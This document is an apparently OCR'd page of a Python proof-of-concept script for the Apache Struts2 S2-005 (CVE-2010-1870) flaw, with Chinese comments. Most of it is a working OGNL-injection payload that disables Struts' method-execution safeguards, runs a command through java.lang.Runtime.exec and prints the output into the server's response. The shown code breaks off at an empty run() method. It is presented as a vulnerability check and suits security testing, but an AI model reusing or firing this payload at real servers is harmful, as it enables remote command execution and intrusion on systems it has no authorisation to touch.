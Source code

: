 ### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-005漏洞，又名CVE-2010-1870漏洞
description: Struts2 S2-005漏洞可执行任意命令
'''

import re
import urllib
import random
import string
import requests

class S2_005_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': 'close',
            'Upgrade-Insecure-Requests': '1',
            'Cache-Control': 'max-age=0'
        }
        self.capta = self.get_capta() 
        self.check_payload = '''?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29'''                    
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

```